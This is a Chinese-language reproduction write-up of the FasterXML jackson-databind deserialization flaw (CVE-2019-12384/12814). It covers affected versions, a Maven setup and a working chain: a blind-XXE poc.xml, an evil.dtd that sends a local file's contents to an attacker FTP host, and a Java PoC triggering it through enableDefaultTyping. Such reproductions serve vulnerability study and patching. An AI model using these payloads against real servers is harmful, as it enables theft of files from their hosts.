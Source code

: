 （CVE-2019-12384）（ CVE-2019-12814）FasterXML jackson-databind 反序列化漏洞
============================================================================

一、漏洞简介
------------

在Jackson 2.x \~ Jackson
2.9.9,当开发人员在应用程序中通过ObjectMapper对象调用enableDefaultTyping方法并且服务端使用了JDOM
1.x 或 JDOM 2.x
依赖库时，攻击者可以发送恶意的JSON消息，读取远程服务器上的任意文件。

### 利用条件

-   开启enableDefaultTyping

-   使用了JDOM 1.x 或 JDOM 2.x 依赖

二、漏洞影响
------------

Jackson 2.x \~2.9.9

三、复现过程
------------

### 环境搭建

创建一个Meaven项目，在pom.xml文件中添加以下依赖：

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.9</version>
        </dependency>

        
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-annotations</artifactId>
          <version>2.9.9</version>
        </dependency>

        
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-core</artifactId>
          <version>2.9.9</version>
        </dependency>
        
        <dependency>
          <groupId>org.jdom</groupId>
          <artifactId>jdom2</artifactId>
          <version>2.0.6</version>
        </dependency>
      </dependencies>

### 漏洞利用

#### 测试文件

准备一个测试文件，后续进行读取：1.png

#### 编写poc.xml

该XXE属于Blind
XXE，我们构造以下恶意xml代码，它会去调用位于我们的攻击主机上(这里以本地启动的Http服务模拟)的外部dtd文件(不在同一个文件写入要读取的文件主要是为了避免参数实体引用时发生的错误）：

    <?xml version="1.0" ?>
    <!DOCTYPE any[
    <!ENTITY % file SYSTEM "file:///c:/hello.txt">
    <!ENTITY % remote SYSTEM "http://127.0.0.1:4444/evil.dtd">
    %remote;
    %send; 
    ]> 
    <foo></foo>

#### 编写evil.dtd

    <!ENTITY % ppp "<!ENTITY % send SYSTEM 'ftp://127.0.0.1/%file;'>">
    %ppp;

#### 启动Http服务

使用python开启一个简易的Http服务：2.png

#### 启动FTP服务

使用IPOP V4.1软件搭建一个简易的FTP服务：3.png

#### 执行漏洞POC

执行如下漏洞POC：

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String[] args)  {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"org.jdom2.transform.XSLTransformer\", \"http://127.0.0.1:4444/poc.xml\"]";
            try {
                mapper.readValue(payload, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

成功读取到文件信息（笔者这里尝试过读取win.in文件，但是发现无法读全，该漏洞其实也是一个反序列化+XXE的利用，而且是Blind
XXE，有兴趣的大佬可以再深入研究一波）4.jpg

**整个执行流程如下**：首先加载参数实体remote，此时会远程加载攻击者主机上的外部实体，首先加载name实体的值，即为我们要读取的文件的内容，然后加载ppp参数实体，在ppp实体中又内嵌了send实体，所以
接下来加载send实体，此时就是关键点，即将name实体的值（C:/hello.txt）发送到我们的FTP服务器上(通过GET、POST等方式的查询会在攻击者的服务器日志中留下相关记录）

参考链接
--------

> https://xz.aliyun.com/t/7820\#toc-7
